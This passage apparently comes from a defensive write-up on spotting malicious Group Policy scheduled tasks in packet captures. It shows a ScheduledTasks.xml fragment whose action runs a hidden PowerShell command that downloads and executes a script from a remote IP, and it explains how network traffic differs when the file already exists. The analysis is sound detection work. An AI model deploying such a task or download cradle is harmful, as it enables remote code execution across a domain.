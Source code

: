```xml
					<DeleteExpiredTaskAfter>PT0S</DeleteExpiredTaskAfter>
				</Settings>
				<Triggers>
					<TimeTrigger>
						<StartBoundary>%LocalTimeXmlEx%</StartBoundary>
						<EndBoundary>%LocalTimeXmlEx%</EndBoundary>
						<Enabled>true</Enabled>
					</TimeTrigger>
				</Triggers>
				<Actions Context="Author">
					<Exec>
						<Command>cmd.exe</Command>
						<Arguments>/c powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://100.100.100.100:80/a'))"</Arguments>
					</Exec>
				</Actions>
			</Task>
		</Properties>
	</ImmediateTaskV2>
</ScheduledTasks>
```

As we can see above and as the filename suggests, it is an xml file which contains a lot of information, but what we are looking for is in `<Exec>` brackets. With this, we can extract the exact command being executed. 


### But what if the ScheduledTasks.xml already exists? 

There are two differences in the network behavior when the Scheduled Task already exists for that GPO

1. New file of ScheduledTasks.xml is not created only more scheduled tasks get appended to the end of the file
2. gPCExtensionName update may not happen because the extension names may have been already set by other Scheduled Tasks

Pcap - 2022-12-12-gpoproject.pcap - # 7150

![](assets/modify_scheduled_task_gpc.png)

Pcap - 2022-12-20-gpoproject-benign_scheduledtask.pcap - # 892

![](assets/new_scheduled_task_gpc.png)
